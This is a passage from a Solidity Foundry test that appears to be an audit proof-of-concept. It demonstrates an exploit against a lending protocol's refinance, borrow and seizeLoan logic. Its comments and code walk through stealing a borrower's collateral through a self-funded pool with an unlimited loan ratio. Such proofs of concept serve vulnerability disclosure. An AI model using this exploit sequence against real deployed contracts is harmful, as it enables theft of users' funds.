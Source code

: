 ```solidity
                poolId: fakePoolId,
                debt: 100 ether,
                collateral: 100 ether
            });


            vm.prank(borrower);
            // Revert because of underflow
            vm.expectRevert(TokenMismatch.selector);
            lender.refinance(rs);
        }

        // At this point the attacker want to finish his chained attack by STEALING the REAL collateral provided by the borrower for his loan
        // What it needs to do is 
        // 1) create a "real" pool by using the real collateralToken and loanToken. The pool just need to provide `loanTokenAmount == originalLoan.debt` to make the attack
        // 2) configure the pool with a maxLoanRatio = type(uint256).max (to be able to later borrow by using the lower amount of collateral possible)
        //    the rest of config does not matter much but we just set it to gain the max possible value from the attack
        // 3) at this point he needs to create a loan by auto-borrowing from his own pool
        //    this is needed for two reasons
        // 3a) First of all in order to later seize the `originalLoan` (the one made by `borrower`) 
        //     we need to have the realAttackerPool.outstandingLoans == borrowerOriginalLoan.debt otherwise `seizeLoan` will revert for underflow
        // 3b) By auto-borrowing we are not going to lose any (only the protocol fees) of the loanToken that we have sent to the `Lender` contract to deploy the pool
        // 4) At this point the attackr call the borrow function by borrowing `originalLoan.debt` and providing ONLY 1 wei of collateral (because we have set maxLoanRatio = type(uint256).max)
        // 5) The next step is to trigger an auction and wait for the auction to end to trigger the seize loan
        // 6) When `seizeLoan` is called it will send the `originalLoan.collateral` to the `orignalLoan.lender` (attacker)
        // At the end of the process the attacker has stolen from the platform the collateral of the original borrower (minus protocol fee)
        
        vm.startPrank(attacker);
        // The attacker just needs 1 wei of collateral token to perform the `borrow` operation
        // because it will create the pool with `maxLoanRatio = type(uint256).max`
        collateralToken.mint(attacker, 1);
        collateralToken.approve(address(lender), 1);

        // The attacker needs to fund the pool with just the `loanToken` needed to be able to perform the `borrow` operation
        // without borrowing the `seizeLoan` operation (to steal the original borrower collateral) would revert for underflow
        loanToken.mint(attacker, loanAfter.debt);
        loanToken.approve(address(lender), loanAfter.debt);
        vm.stopPrank();

        // the amount we have invested into the attack
        uint256 collateralTokenBalanceBefore = collateralToken.balanceOf(attacker);
        uint256 loanTokenalanceBefore = loanToken.balanceOf(attacker);

        // Attacker create the pool by funding it with `loanAfter.debt` amount of `loanToken`
        // it's important to set `maxLoanRatio = type(uint256).max` to borrow from the pool with the minimum amount of collateral
        // this allow us to "lose" less collateral possible
        vm.prank(attacker);
        bytes32 attackerPoolId = lender.setPool(Pool({
            lender: attacker,
```